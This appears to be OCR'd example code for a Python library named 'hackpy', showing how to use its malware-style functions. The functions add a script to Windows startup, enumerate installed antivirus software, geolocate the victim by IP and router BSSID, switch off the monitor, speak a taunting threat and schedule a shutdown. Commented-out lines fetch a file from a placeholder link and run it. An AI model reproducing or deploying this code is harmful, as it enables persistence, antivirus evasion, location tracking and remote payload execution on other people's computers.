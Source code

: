 # Import modules
import os, sys
import hackpy

PATH = os.path.dirname(os.path.realpath(__file__)) # Get current directory path
CORE = os.path.basename(os.path.realpath(sys.argv[0])) # Get this script filename.

hackpy.configure(PATH + '\\hackpy') # Folder for temp files. default is: %temp%\hackpy
hackpy.clean() # Remove all hackpy temp files from system
hackpy.load(architecture=64) # default 32

# Autorun
hackpy.autorun(PATH, CORE, 'test', state=True) # Add this file to startup
hackpy.autorun(PATH, CORE, 'test', state=False) # Remove this file from startup

# Detect installed antivirus software on computer:
data = hackpy.detect_protection()
for antivirus in data:
    print('[!] - Antivirus detected: ' + antivirus + ', install path: ' + data[antivirus])

# Information about you IP:
data = hackpy.ip_info()
print('[?] - You IP is: ' + data['query'])
print('[?] - You live in: ' + data['country'] + ', country code: ' + data['countryCode'])

# Information about other IP:
data = hackpy.ip_info('216.58.215.110')
print('[?] - Other Information about IP:\n' + str(data))
# {"query", "status", "country", "countryCode", "region", "regionName", "city", "zip", "lat", "lon", "timezone", "isp", "org", "as"}

# Get router bssid:
bssid = hackpy.router() # You can use own router ip list: router_urls = ['192.168.0.1', '192.168.1.1', etc...]
# Find LATITUDE and LONGITUDE with router BSSID:
data = hackpy.bssid_locate()
print('LATITUDE: ' + str(data['lat']) + ', LONGITUDE: ' + str(data['lon']) + ', RANGE: ' + str(data['range']))

# Nircmdc reference: https://nircmd.nirsoft.net
hackpy.nircmdc('monitor off')
hackpy.nircmdc('speak text \"HAHAHAHAHHAH IM FIND YOU!\"')
hackpy.system('shutdown -s -t 3600')

# Load and execute file from internet
# file = hackpy.wget(direct.link.here)
# hackpy.start(file)
